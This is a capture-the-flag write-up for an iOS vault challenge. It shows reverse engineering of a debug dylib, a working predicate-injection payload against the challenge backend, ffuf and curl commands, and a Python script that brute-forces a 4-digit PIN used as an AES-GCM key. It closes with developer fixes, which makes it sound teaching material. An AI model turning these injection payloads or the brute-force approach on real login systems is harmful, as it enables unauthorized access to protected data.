



## TL;DR

The vault falls to two weaknesses chained together: a server-side NSPredicate-style injection that returns the encrypted vault without valid credentials, and a 4-digit password used directly as an AES-GCM key, cracked offline in under a second.

| Item | Value |
| --- | --- |
| Challenge | Injecta Vault (Mobile Hacking Lab, MHC CTF 2026, Easy) |
| Platform | iOS, Swift, UIKit |
| Bug 1 | Predicate injection in the backend login (`' OR password LIKE '*`) |
| Bug 2 | AES-GCM key = SHA-256 of a 4-digit PIN, brute forced offline |
| PIN | 7331 |
| Flag | `MHC{Pr3d1c4t3_1nj3ct10n_M4st3r}` |

Tools: Ghidra, `strings`, curl, ffuf, Python (`cryptography`).



The client check never stood in the way; the real gate was the backend, and the PIN only ever mattered as a key.

## Recon: the real code is in the debug dylib

The `Vault` executable is only Xcode's debug stub launcher; all the app logic lives in `Vault.debug.dylib`. Debug builds since Xcode 15 (`ENABLE_DEBUG_DYLIB`) ship a tiny main binary that `dlopen`s `<App>.debug.dylib` and jumps to its entry point, mostly to support SwiftUI Previews.

```
Payload/Vault.app/
  Vault               <- stub: getDebugDylibHandle, __PREVIEWS_* env vars
  Vault.debug.dylib   <- the app
  __preview.dylib
```

The stub decompiles badly because of `_OUTLINED_FUNCTION_N` calls. These are stubs made by LLVM's MachineOutliner: repeated instruction sequences (mostly `os_log` boilerplate here) pulled into shared helpers that do not follow the calling convention. In Ghidra, marking them **In Line** (Edit Function Signature) restores the dataflow.

Lesson: run `strings`, `otool` and Ghidra against `Vault.debug.dylib`. My first `strings -a Vault` returned only Previews symbols and entitlements.

```bash
strings -a Vault.debug.dylib | grep -iE "admin|user|pass|secret|key|MHL"
```

That one grep surfaced most of the map:

- The predicate template: `username == '` and `' AND password == '`
- A password hint: *last 4 digits of my phone number*
- A `Vault.Crypto` class with `processVaultData(base64Payload:key:)`, `generateSecurityKey(token:)` and CryptoKit `AES.GCM.open`
- `User` properties: `username`, `password`, `encryptedVaultToken`, `is_admin`, `isVaultUnlocked`, `vaultData`, and a `prepare(with:)` method
- Two 32-byte base64 strings next to `SecTrustCopyKey`, most likely TLS public-key pins (neither matched a SHA-256 of any 4-digit PIN)

## Client side: the local predicate check is a no-op

`ViewController.loginTapped()` builds an NSPredicate by string interpolation, so it is injectable, but for normal input it is always true and only gates whether the request is sent.

Reconstructed from the decompilation:

```swift
let user = User(u: usernameField, p: passwordField)
self.currentUser = user
let u = usernameField.text ?? ""
let p = passwordField.text ?? ""
let fmt = "username == '\(u)' AND password == '\(p)'"
print("[DEBUG] Predicate String: \(fmt)")
let ok = NSPredicate(format: fmt).evaluate(with: user)   // no arguments bound
print("[DEBUG] Local Evaluation Result: \(ok)")
if !ok { statusLabel.text = "ACCESS DENIED\nINVALID SIGNATURE"; return }
fetchVaultData(username: u, password: p) { result in ... }
```

Two details matter:

1. User input becomes part of the **format string**. The safe form is `NSPredicate(format: "username == %@", u)`; here a `'` in the input closes the string literal and the rest is parsed as predicate grammar.
2. `User` is an `NSObject` subclass whose `username` and `password` getters just return the text fields' contents. So the predicate compares each field to itself and is true for any input without a quote. `INVALID SIGNATURE` locally only appears when an injection breaks the syntax or the logic.

A working local bypass, for completeness (username field, any password):

```
' OR TRUEPREDICATE OR username == '
```

which expands to `username == '' OR TRUEPREDICATE OR username == '' AND password == 'x'`. `AND` binds tighter than `OR`, so the trailing comparison cannot cancel `TRUEPREDICATE`. My first attempts failed because I added SQL-style parentheses that the template never opens, and the parser threw on the imbalance.

Because the predicate is evaluated against an `NSObject` through KVC, an injection can also read any `@objc` property (`encryptedVaultToken`, `vaultData`) or call methods via `FUNCTION(SELF, 'prepareWith:', ...)`, with the `[DEBUG]` log as a boolean oracle. That route was not needed here.

## Reading the response path: the design is two steps

The response handlers show that the server can hand out the encrypted vault while the password is still wrong, and the password only matters locally as the decryption key.

**Request** (`fetchVaultData`): a plain JSON POST with the raw field values, no hashing or escaping.

```
POST https://2026.mhc-ctf.workers.dev/injecta-vault/fetch
Content-Type: application/json

{"username":"<field>","password":"<field>"}
```

**Network callback** (closure #1 in `fetchVaultData`): the HTTP status is never checked, only the JSON body.

```
json["data"] is String   -> .success(data)
json["error"] is String  -> .failure(error)
anything else            -> .failure("Unknown backend error" / "Failed to parse backend response")
```

**Result handler** (closure #1 in closure #3 in `loginTapped`, on the main actor):

```swift
case .success(let data):
    user.encryptedVaultToken = data
    if let plain = Crypto.processVaultData(base64Payload: data, key: passwordField.text ?? "") {
        statusLabel.text = "ACCESS GRANTED\nVAULT DATA: \(plain)"
    } else {
        statusLabel.text = "ACCESS DENIED\nPASSWORD INCORRECT"
    }
case .failure:
    statusLabel.text = "ACCESS DENIED\nINVALID SIGNATURE"
```

**Crypto**: `generateSecurityKey(token:)` is `SymmetricKey(data: SHA256(token.utf8))`, and `processVaultData` opens an AES-GCM sealed box with it. `User.isVaultUnlocked` is just "does decryption succeed", and `is_admin` is hardcoded to `false` (a decoy).

The `PASSWORD INCORRECT` branch is the giveaway: it is only reachable if the backend returns `data` for a wrong password. Combined with the 4-digit hint, the intended chain is: inject the backend to get the ciphertext, then brute force the PIN offline, where the GCM tag tells you exactly when the key is right.

## Server side: the LIKE wildcard gets through

The backend accepts `' OR password LIKE '*` in the password field with any username and returns the encrypted vault. Tautologies and SQL syntax all failed, so it took several rounds to find.

Since the client check is only UI, I tested the endpoint directly with curl. Every failure looked identical: HTTP 403, 30 bytes, `{"error":"Wrong credentials."}`, about 0.5 s. No error messages leaked the grammar, so each round had to be compared against that baseline by status, size and time.

| Attempt | Field | Result |
| --- | --- | --- |
| Lone `'` (syntax probe) | username | 403, baseline |
| `' OR TRUEPREDICATE OR username == '` | both | 403, baseline |
| `' OR 1==1 OR username == '` | both | 403, baseline |
| SQL: `' OR '1'='1`, `' OR 1=1 --`, `admin' --` | both | 403, baseline |
| NoSQL / type confusion: `{"$ne":null}`, `true`, `["a"]` | both | 403, baseline |
| PIN brute force online, `admin` / 0000 to 9999 | password | 0 hits in 10,000 |
| `' OR username LIKE '*` / `' OR password LIKE '*` | password | **200, 174 bytes** |

The winning run used ffuf in clusterbomb mode over usernames `admin`, `x` and empty:

```bash
ffuf -u "$URL" -X POST -H 'Content-Type: application/json' \
  -d '{"username":"USERFUZZ","password":"PASSFUZZ"}' \
  -w users.txt:USERFUZZ -w payloads2.txt:PASSFUZZ \
  -mode clusterbomb -t 5 -fr 'Wrong credentials' -v
```

ffuf trap: my first run used `U` and `P` as keywords. ffuf substitutes keywords everywhere, including the method, so `POST` was mangled and all 21 requests errored before leaving the box. `Errors > 0` with `0 req/sec` means the command is broken, not the target.

The server most likely builds the same template as the client: `username == 'x' AND password == '' OR password LIKE '*'`. With `AND` binding tighter, the left side is false and `LIKE '*'` matches every record. Why `TRUEPREDICATE` and `1==1` failed is a guess: the backend probably reimplements only part of the grammar.

```bash
curl -s -X POST "$URL" -H "$H" \
  -d "{\"username\":\"x\",\"password\":\"' OR password LIKE '*\"}"
```

```json
{"success":true,"data":{"status":"success","data":"iLZIis99AY837KV2eOu/Hevt18RVpB8mgbRX8CDiWOXBGznN3In+XtYSfR92ckVxRytL3g11cVHeHDY=","message":"Successfully authenticated."}}
```



Note that the blob sits at `data.data`. As decompiled, the app casts top-level `data` to `String`, which fails on an object, so the app itself may show `INVALID SIGNATURE` even after a successful injection. I did not confirm this on the device; the offline route below does not depend on it.

## Offline PIN crack and flag

All 10,000 PINs are tried locally in well under a second; PIN `7331` decrypts the blob to the flag.

The key is `SHA256(pin)` and the blob is CryptoKit's default combined layout, `nonce (12) || ciphertext || tag (16)`. Python's `AESGCM.decrypt` expects ciphertext and tag together, so only the nonce is split off. A wrong key fails the GCM tag check, so there are no false positives.

```python
import base64, hashlib
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

BLOB = "iLZIis99AY837KV2eOu/Hevt18RVpB8mgbRX8CDiWOXBGznN3In+XtYSfR92ckVxRytL3g11cVHeHDY="
raw = base64.b64decode(BLOB)
nonce, ct = raw[:12], raw[12:]

for i in range(10000):
    pin = f"{i:04d}"
    key = hashlib.sha256(pin.encode()).digest()
    try:
        print(pin, AESGCM(key).decrypt(nonce, ct, None).decode())
        break
    except Exception:
        pass
```



The earlier online brute force (`admin` plus every PIN) found nothing, so `admin` with the PIN is not a valid server login. In this design the PIN's real job is to be the decryption key, which is why it had to be attacked offline.

## Lessons and fixes

For the attacker, the biggest time saver was reading the whole response path before attacking the server; for the developer, both bugs are one-line fixes.

**Methodology**

- Analyze the right binary. With `ENABLE_DEBUG_DYLIB`, the main executable is a stub; the app is `*.debug.dylib`.
- Write the final string out by hand. Every failed predicate payload came from not expanding the template and checking quotes, parentheses and `AND`/`OR` precedence.
- A client-side check is UI, not security. Find the API call and test the server directly.
- When every server response is identical, stop fuzzing and get information from the client instead. The `PASSWORD INCORRECT` branch explained the whole design.
- When one operator fails, try others in the same grammar (`LIKE`, `BEGINSWITH`, `MATCHES`) before ruling the injection out.
- Brute force where the oracle is cheap and exact. Offline, the GCM tag beat 10,000 network requests.
- Export the full Ghidra decompilation (File, Export Program, C/C++) and grep it instead of hunting closures one at a time. Skip `partial_apply_forwarder` wrappers and ObjC thunks; the logic is in the `Vault::User::get_*` and nested closure bodies.

**Fixes**

| Issue | Fix |
| --- | --- |
| Predicate built by string interpolation (client and server) | Bind values: `NSPredicate(format: "username == %@ AND password == %@", u, p)`; on the server, parameterized queries or a strict comparison |
| 4-digit password as an AES key via plain SHA-256 | Derive keys with a slow KDF (PBKDF2, Argon2) and a salt, and enforce a real password policy; 10,000 keys is no keyspace |
| Backend returns the ciphertext before authenticating | Authenticate first; never ship secrets to an unauthenticated client and rely on local decryption |
| `[DEBUG]` prints of the predicate and result | Strip debug logging from release builds; here it handed out an oracle |
